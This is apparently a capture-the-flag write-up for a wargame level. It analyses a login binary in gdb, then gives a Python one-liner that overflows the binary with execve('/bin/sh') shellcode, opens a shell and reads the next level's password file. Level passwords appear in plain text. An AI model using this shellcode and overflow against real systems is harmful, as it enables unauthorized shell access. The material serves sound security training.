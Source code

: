 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

name : `dat_wil`\
`verify_user_name()` check only the 7 first characters


```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x eax
No symbol table is loaded.  Use the "file" command.
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
buffer a_user_name + 7 = 804a040 + 7 = 804a047

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```